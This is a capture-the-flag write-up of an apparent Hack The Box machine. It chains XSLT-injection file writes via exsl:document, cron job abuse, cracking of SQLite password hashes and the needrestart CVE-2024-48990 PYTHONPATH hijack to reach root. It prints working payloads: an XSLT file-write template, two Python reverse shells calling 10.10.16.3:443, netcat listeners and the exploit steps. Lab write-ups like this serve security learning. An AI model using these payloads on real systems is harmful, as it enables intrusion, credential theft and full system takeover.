


Exploitation Summary
Exploitation process: The target machine exposed a web application that converted XML and XSLT files to HTML. While the XML parser was properly secured against common XXE attacks, the XSLT processor lacked sufficient protections, allowing arbitrary file write operations through XSLT injection.
By exploiting the XSLT processor's file write functionality and leveraging a documented cron job that automatically executed Python scripts from /var/www/conversor.htb/scripts/, I was able to inject a malicious Python reverse shell script and gain initial access as the www-data user.
After obtaining initial access, I discovered SQLite database credentials that allowed lateral movement to the fismathack user. This user had sudo privileges to execute /usr/sbin/needrestart without a password. By exploiting CVE-2024-48990, a Python library hijacking vulnerability in needrestart that incorrectly reads the PYTHONPATH environment variable from /proc/<pid>/environ, I achieved privilege escalation to root.
Technologies/Exploits: XSLT injection via exsl:document extension for arbitrary file write, cron job abuse, SQLite credential extraction, needrestart Python library hijacking (CVE-2024-48990).
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services running on the target machine:

The scan reveals SSH on port 22 and HTTP on port 80. I proceed to enumerate the web service.
Web Application Analysis
The web application provides functionality to convert XML and XSLT files to formatted HTML output:

This is an interesting attack surface since XSLT processing can sometimes lead to vulnerabilities like server-side request forgery (SSRF), arbitrary file read, or even code execution depending on the implementation and libraries used.
Source Code Discovery
While exploring the application, I discover the source code is available at the /about route. I download and inspect it to understand the application's internals.
From the source code analysis, I identify several key details:
- The application uses an SQLite3 database
- The XML parser is properly secured with strict options that prevent common XXE attacks:
parser = etree.XMLParser(resolve_entities=False, no_network=True, dtd_validation=False, load_dtd=False) - The XSLT processor, however, lacks similar protections and may be exploitable
XSLT Injection Research
Researching XSLT injection techniques, I find valuable resources like https://ine.com/blog/xslt-injections-for-dummies that explain how to exploit XSLT processors.
I begin testing with system property enumeration to fingerprint the XSLT processor. I inject the following XSLT code:
<xsl:value-of select="system-property('xsl:version')" />
<xsl:value-of select="system-property('xsl:vendor')" />
<xsl:value-of select="system-property('xsl:vendor-url')" />The application responds with:
1.0
libxslt
http://xmlsoft.org/XSLT/This confirms the server is using libxslt version 1.0. I attempt various payloads for
file reading and code execution using PHP extensions, but these attempts fail and only produce
errors.
File Write Discovery
After unsuccessful attempts at file reading and code execution, I shift focus to file write
capabilities. During my source code review, I had noticed an interesting detail in the
install.md file:
"If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your
/etc/crontab:
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
This reveals a critical piece of information: there's a cron job running every minute that executes
all Python scripts in /var/www/conversor.htb/scripts/ as the www-data
user. If I can write a file to this directory, I can achieve code execution.
Initial Access - XSLT File Write Exploitation
To exploit this, I craft an XSLT payload that uses the exsl:document extension to write
a Python reverse shell to the scripts directory:
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:exsl="http://exslt.org/common"
extension-element-prefixes="exsl">
<xsl:template match="/">
<exsl:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.3",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
</exsl:document>
<success>File written!</success>
</xsl:template>
</xsl:stylesheet>This XSLT template uses the exsl:document element to write content to an arbitrary file
path. The payload contains a Python reverse shell that will connect back to my machine on port 443.
Before uploading the malicious XSLT, I set up a netcat listener:
sudo nc -lvnp 443After uploading the XSLT file through the web interface, I wait for the cron job to execute. Within
a minute, I receive the reverse shell connection and gain access as the www-data user.
Post-Exploitation Enumeration
After stabilizing my shell with the standard Python TTY technique, I begin enumerating the system. I
discover a user named fismathack in /home.
SQLite Database Credential Extraction
Remembering from the source code that the application uses an SQLite3 database, I locate and examine it. Inside, I find password hashes for users. Using a hash cracking tool, I successfully crack one of the hashes and obtain valid credentials:
fismathack:KeepmesafeandwarmI use these credentials to switch to the fismathack user and retrieve the user flag.
Privilege Escalation - Needrestart Analysis
After gaining access as fismathack, I check for sudo privileges:
sudo -lThe output reveals an interesting permission:
User fismathack may run the following commands on conversor:
(ALL : ALL) NOPASSWD: /usr/sbin/needrestartThe needrestart binary isn't a standard tool I'm familiar with, so I investigate
further. Running cat /usr/sbin/needrestart, I see it's actually a Perl script:
#!/usr/bin/perl
# nagios: -epn
# needrestart - Restart daemons after library updates.The script is quite lengthy, but it's open source and available at https://github.com/liske/needrestart. This tool is used to determine which daemons need to be restarted after library updates.
CVE Research - CVE-2024-48990
Searching for known vulnerabilities, I discover a recent security disclosure detailing multiple CVEs affecting needrestart: https://www.openwall.com/lists/oss-security/2024/11/19/1
Among the disclosed vulnerabilities, I focus on CVE-2024-48990, which is particularly interesting for privilege escalation.
Understanding CVE-2024-48990
This vulnerability is a Python library hijacking attack with a unique twist: instead of reading
environment variables from the sanitized sudo environment, needrestart reads the
PYTHONPATH variable directly from /proc/<pid>/environ of running
processes.
The exploitation flow works as follows:
- Set
PYTHONPATHto a directory I control (e.g.,/home/fismathack) - Create a malicious Python module in that directory that will be imported
- Start a Python process with this
PYTHONPATHset - Run
sudo needrestart, which will scan running processes - When needrestart finds the Python process, it reads its
PYTHONPATHfrom/proc/<pid>/environ - Needrestart spawns a child process that inherits this
PYTHONPATH - When the child process imports Python modules, it loads the malicious module from the hijacked path
Exploiting CVE-2024-48990 for Root Access
To exploit this vulnerability, I follow these steps:
Step 1: Create the malicious module structure. I create an importlib
directory in /home/fismathack with a malicious __init__.py file containing
a reverse shell:
mkdir -p /home/fismathack/importlib
cat > /home/fismathack/importlib/__init__.py << 'EOF'
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.3",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
EOFStep 2: Create a simple Python script that runs in an infinite loop with the
PYTHONPATH environment variable set:
# main.py
while True:
passStep 3: Execute this script with the PYTHONPATH set to my home
directory:
PYTHONPATH=/home/fismathack python3 main.py &Step 4: Set up a netcat listener on my attacking machine:
sudo nc -lvnp 443Step 5: From another terminal session as fismathack, run needrestart
with sudo:
sudo /usr/sbin/needrestartWhen needrestart executes, it scans running processes and finds the main.py process. It
reads the PYTHONPATH=/home/fismathack from /proc/<pid>/environ and
uses this path when spawning its own child process. When the child process executes import
sys or similar imports, it triggers the loading of the importlib module from
my home directory, executing the reverse shell payload as root:
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.92] 35348
# whoami
root
# cat /root/root.txtWith this, I have successfully escalated privileges to root and completed the machine.
Additional Resources
For a detailed step-by-step guide on exploiting this vulnerability, this article provides excellent coverage: https://medium.com/@allypetitt/rediscovering-cve-2024-48990-and-crafting-my-own-exploit-ce13829f5e80